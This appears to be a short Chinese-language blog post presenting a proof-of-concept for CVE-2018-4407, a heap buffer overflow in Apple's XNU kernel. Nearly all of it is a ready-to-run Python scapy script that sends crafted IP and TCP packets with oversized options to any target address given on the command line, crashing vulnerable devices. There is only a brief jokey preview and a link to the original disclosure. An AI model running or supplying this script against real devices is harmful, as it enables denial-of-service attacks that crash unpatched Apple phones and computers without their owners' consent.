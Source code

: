 title: "CVE-2018-4407苹果操作系统内核堆缓冲区溢出漏洞验证POC"
date: 2018-11-01 18:00:00 +0800
update: 2018-11-01 18:00:00 +0800
author: me
cover: "-/images/cve-2018-4407.png"
tags:
    - 漏洞
    - poc
    - python
preview: 影响苹果系统哦！我看你们更不更新成IOS12

---


check_icmp_dos.py:

```
# CVE-2018-4407 ICMP DOS 
# https://lgtm.com/blog/apple_xnu_icmp_error_CVE-2018-4407 
# from https://twitter.com/ihackbanme 
import sys 
try: 
	from scapy.all import * 
except Exception as e: 
	print ("[*] You need install scapy first:\n[*] sudo pip install scapy ") 
	
if __name__ == '__main__': 
	try: 
		check_ip = sys.argv[1] 
		print ("[*] !!!!!!Dangerous operation!!!!!!") 
		print ("[*] Trying CVE-2018-4407 ICMP DOS " + check_ip) 
		for i in range(8,20): 
			send(IP(dst=check_ip,options=[IPOption("A"*i)])/TCP(dport=2323,options=[(19,"1"*18),(19,"2"*18)])) 
		print ("[*] Check Over!! ") 
	except Exception as e: 
		print "[*] usage: sudo python check_icmp_dos.py 127.0.0.1" 
```

![cve-2018-4407](-/images/cve-2018-4407.png)